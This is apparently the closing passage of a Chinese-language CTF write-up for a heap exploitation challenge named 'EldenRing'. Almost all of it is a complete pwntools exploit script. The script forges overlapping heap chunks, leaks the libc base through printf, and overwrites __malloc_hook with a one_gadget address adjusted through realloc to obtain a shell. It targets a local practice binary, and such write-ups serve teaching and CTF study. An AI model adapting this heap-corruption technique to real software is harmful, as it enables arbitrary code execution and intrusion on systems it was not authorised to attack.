 最后任意分配一个卢恩 chunk 触发漏洞，取得 shell😘

## 完整 EXP

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p=process('./EldenRing')
elf=ELF("./EldenRing")
libc=elf.libc
def debug():
    gdb.attach(p)
    pause()
def cmd(cho):
    p.recvuntil(b'choice')
    p.sendline(str(cho))
def Two_finger(size,cnt):
    cmd(2)
    p.sendlineafter(b's do you want to create for restoration?',str(size))
    p.sendlineafter(b'understand...',cnt)

def Three_finger(idx):
    cmd(3)
    p.sendlineafter(b'Which Rune do you want to destroy?',str(idx))
def Age_of_the_Stars():
    cmd(4)

def Dung_Eater():
    cmd(18)
# chunk 0x31---> rune size 55
p.sendafter(b'ber who you are?', b"q8MkK6e0\x00nosekiro")
Two_finger(55,b64e(b'sekiro')) # 0
Two_finger(55,b64e(b'sekiro')) # 1
Two_finger(55,b64e(b'sekiro')) # 2
Two_finger(65,b64e(b'sekiro')) # 2

Three_finger(0)
Two_finger(55,b64e(p64(0)*5+p8(0x61))) # 0

Three_finger(1)
Two_finger(109,b64e(p64(0)*5+p8(0x71))) # 1

Three_finger(2)
Three_finger(1)

# ---------------------- leak libcaddr
Age_of_the_Stars()
p.recvuntil(b'0x')
libc_base = int(p.recv(12), 16) - libc.symbols['printf']
hijackaddr = libc_base + libc.symbols['__malloc_hook'] - 0x23
print(hex(libc_base))

# ---------------------- Attack __malloc_hook
Two_finger(97,b64e(p64(0)*5+p64(0x71)+p64(hijackaddr))) # 1 To modifyd

Two_finger(123,b64e(b'sekiro')) # 2
Two_finger(123,b64e(b'\x00'*(0x13-8)+p64(libc_base+0xf1247)+p64(libc_base+libc.symbols['realloc']+6)))#attack chunk
# debug()

# ---------------------- Trigger
Two_finger(18,b64e(b"End?Never"))

p.interactive()
```
